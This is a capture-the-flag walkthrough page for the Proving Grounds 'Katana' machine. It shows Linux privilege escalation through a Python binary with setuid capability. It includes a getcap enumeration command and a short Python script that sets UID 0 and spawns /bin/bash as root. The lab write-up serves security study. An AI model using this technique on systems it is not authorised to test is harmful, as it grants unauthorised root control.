 ```yaml
---
layout: default
title: Python
parent: Extended Capabilities
nav_order: 2
---
```


# Python

---

## Check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

![extend_cap](../../../../assets/images/ctfs/proving_grounds/katana/extend_cap.png)

Within the /tmp directory, create **priv.py** that does the following:

1. Sets the UID to 0
2. Generates a /bin/bash shell

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

Make **priv.py** executable and run with python2.7 to get root shell.

![root](../../../../assets/images/ctfs/proving_grounds/katana/root.png)
